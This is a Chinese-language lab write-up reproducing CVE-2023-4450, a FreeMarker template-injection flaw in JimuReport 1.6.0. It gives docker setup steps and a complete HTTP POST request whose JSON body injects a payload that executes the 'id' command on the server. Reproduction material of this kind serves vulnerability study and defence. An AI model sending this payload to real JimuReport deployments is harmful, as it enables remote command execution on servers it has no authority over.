

JeecgBoot JimuReport FreeMarker 服务端模板注入命令执行（CVE-2023-4450）¶
积木报表（JimuReport）是隶属于JeecgBoot项目下的一个开源的数据可视化报表平台。在其1.6.0版本及以前，存在一个FreeMarker服务端模板注入（SSTI）漏洞，攻击者利用该漏洞可在服务器中执行任意命令。
参考链接：
- https://github.com/advisories/GHSA-j8h5-8rrr-m6j9
- https://whoopsunix.com/docs/java/named%20module/
- https://www.reajason.eu.org/writing/freemarkersstimemshell/
漏洞环境¶
执行如下命令启动一个JimuReport 1.6.0演示服务器：
docker compose up -d
等待一段时间后，访问http://your-ip:8085即可看到报表首页。
漏洞复现¶
发送如下请求，即可在服务端注入FreeMarker模板<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}：
POST /jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 100
{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\")}'" }
可见，id命令已经成功被执行：
